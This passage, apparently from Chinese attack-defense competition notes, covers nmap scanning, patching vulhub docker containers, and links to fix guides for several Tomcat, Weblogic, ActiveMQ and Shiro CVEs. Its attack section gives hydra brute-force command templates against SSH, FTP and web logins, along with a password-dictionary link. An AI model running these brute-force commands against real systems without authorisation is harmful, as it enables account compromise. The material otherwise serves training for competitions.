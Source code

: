 ``` bash
nmap -sV -p- -T4 [ip]
```

### vulhub

1. 查看启动docker进程：

``` bash
# 活动容器
docker ps

# 全部容器
docker ps -a
```

2. 进入容器修漏洞：

``` bash
#方法一
docker exec -it [容器id] /bin/bash

#方法二
cd [docker目录]
docker-compose exec [容器名称] bash
```

3. 修补完漏洞重启容器生效：

``` bash
docker restart [容器id]
```

**相关CVE漏洞修复指南：**

* [Tomcat7+ Weak Password && Backend Getshell Vulnerability](http://got17.cn/1078/)
* [CNVD-2020-10487(CVE-2020-1938)tomcat ajp 文件读取漏洞](http://got17.cn/1078/)
* [Weblogic  10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271）](http://got17.cn/1079/)
* [ActiveMQ反序列化漏洞（CVE-2015-5254）](http://got17.cn/1079/)
* [Apache Shiro 1.2.4反序列化漏洞（CVE-2016-4437）](http://got17.cn/1080/)
* [Weblogic weak password](http://got17.cn/1080/)

**另外可提前把相关漏洞修复文件、脚本、命令准备好，漏洞一确定即可立马修复。**

## 攻

### hydra破解弱口令

2011-2019年Top100弱口令密码字典 Top1000密码字典 服务器SSH/VPS密码字典 后台管理密码字典 数据库密码字典：

https://github.com/k8gege/PasswordDic

破解命令：

``` bash
1、破解ssh： 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh 
hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh 


2、破解ftp： 
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV 
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV 


3、get方式提交，破解web登录： 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/ 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php


```